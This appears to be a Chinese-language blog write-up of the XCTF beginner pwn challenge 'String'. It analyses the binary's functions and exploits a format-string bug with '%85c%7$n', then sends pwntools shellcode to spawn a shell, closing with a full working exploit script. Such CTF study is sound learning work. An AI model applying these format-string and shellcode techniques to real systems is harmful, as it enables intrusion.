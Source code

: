 ```yaml
---
title: 「xCTF」Pwn - String WriteUp
date: 2021-11-02 0:00:00
tags: ['xCtf', 'Pwn', 'WriteUp']
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_1.png
banner_img: https://novanoir.moe/img/ctf_logo_1.png
---
```


## 写在开头的碎碎念

捏🐎咋这个Pwn这么难的啊，看WP也看不懂，~~即刻退出Pwn~~

说归说，至少先把这个攻防世界新手区给它干了

经过几天的~~并不系统的三天打鱼两天晒网的~~学习，现在只能说非常有自信。

**String**应该是攻防世界新手区里最有趣也最难的一题了，开整！

<!--truncate-->



## 开整

### 分析
![exeinfope](https://cdn.novanoir.moe/img/image-20211101153717286.png)

![checksec](https://cdn.novanoir.moe/img/image-20211101153833049.png)

总而言之先扫一遍， 64bit没有PIE

先看看main

![main](https://cdn.novanoir.moe/img/image-20211101153942250.png)

v4申请了一个**8字节长**的内存地址，保存的是`68, 85`两个数据，同时它把这两个数据的地址print了出来

跟进到`sub_400D72()`看看

![sub_400D72()](https://cdn.novanoir.moe/img/image-20211101154214749.png)

让我们输入名字，但是下面对s的长度做了检测所以没办法溢出。

继续看看其他函数，首先是`sub_400A7D()`

![sub_400A7D()](https://cdn.novanoir.moe/img/image-20211101154750528.png)

> 为了训练英语水平这里顺带打个翻译(?)
>
> > 这是一个有名却分外不同寻常的小酒馆。这里空气清新，大理石铺成的地板也很干净。几乎看不到吵闹的客人，家具也没有被在这个世界的其他酒馆寻常可见的打架斗殴所损坏。装饰极其华丽，看着很适合摆在宫殿里，但在这个城市这却是极其平常的。房间中央是天鹅绒覆盖的椅子和长凳，有很大的橡木桌子围绕。一个大告示固定在一根木条后的北面的墙上。在一个角落你发现了一个壁炉。有两个明显的出口：向东，向上。但奇怪的是，并没有人在那，那么你要向哪里走呢？
>
> 这个背景不能说毫无吸引力只能说翻译了是纯纯浪费时间
>
> ~~我是傻宝~~

所以要我们给出选择：`east`Or`up`

但是看下面的代码我们发现了：你只能选择`east`（选择了`up`之后你就会面临无尽之洞），继续接下来看`sub_400BB9()`

![sub_400BB9()](https://cdn.novanoir.moe/img/image-20211101173616709.png)

这里提到了`address`，很容易联想到前面我们的`v4`，估计是要在v2和format做文章，但是具体怎么操作还不清楚，继续看`sub_400CA6()`

![sub_400CA6()](https://cdn.novanoir.moe/img/image-20211101174119436.png)

这里的a1其实就是我们最开始的v4，所以我们需要让`*v4 = v4[1]`

注意下`((void (__fastcall *)(_QWORD))v1)(0LL);`这行，这里把v1转换成了可执行函数（void为返回值类型，__fastcall为协议），在这里我们就可以打shellcode了。

### Payload

接下来就是如何实现的问题了。

先把前面几个固定步骤的写了

![exp_01](https://cdn.novanoir.moe/img/image-20211102105044906.png)



这里就需要引入格式化字符串的漏洞，[传送门](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

我们需要找一下v4所在的参数位置，传入payload

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://cdn.novanoir.moe/img/image-20211102105300535.png)

可以看到我们的`41414141`位于栈内第八个位置，而我们刚才写入的v4_addr是位于前一个位置的，此时

就可以构造payload使得*v4=85了

```python
payload = '%85c%7$n'
```

![return_0](https://cdn.novanoir.moe/img/image-20211102105850378.png)

这时候我们已经满足`sub_400CA6()`中的条件了，那么只需要轻松写入一个shellcode，就可以拿到shell了。

完整payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```

